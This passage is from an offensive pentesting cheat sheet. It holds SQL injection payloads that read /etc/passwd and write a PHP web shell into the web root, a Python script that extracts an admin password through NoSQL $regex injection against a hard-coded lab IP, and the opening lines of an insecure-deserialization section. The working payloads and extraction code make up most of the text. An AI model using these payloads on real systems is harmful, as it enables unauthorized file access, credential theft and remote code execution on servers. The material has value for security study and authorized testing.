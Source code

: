 | **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |

# Nosql

### Grab password with JSON post request
```python
import json
import requests
import string
import sys

url = 'http://10.10.11.139:5000/login'
def login(pw):
	payload = '{ "$regex": "%s" }' % pw
	data = { "user": "admin","password":json.loads(payload) }
	r = requests.post(url,json=data)
	if 'Invalid Password' in r.text:
		return False
	return True

password = '^'
stop = False
while stop == False:
	for i in string.ascii_letters:
		sys.stdout.write(f'\r{password}{i}')
		if login(f'{password}{i}'):
			password += i
			if login(f"{password}$"):
				sys.stdout.write(f'\r{password}\r\n')
				sys.stdout.flush()
				stop = True
				break
			break
```



# Insecure deserialization


## PHP serialization format

PHP uses a mostly human-readable string format, with letters representing the data type and numbers representing the length of each entry. For example, consider a User object with the attributes:

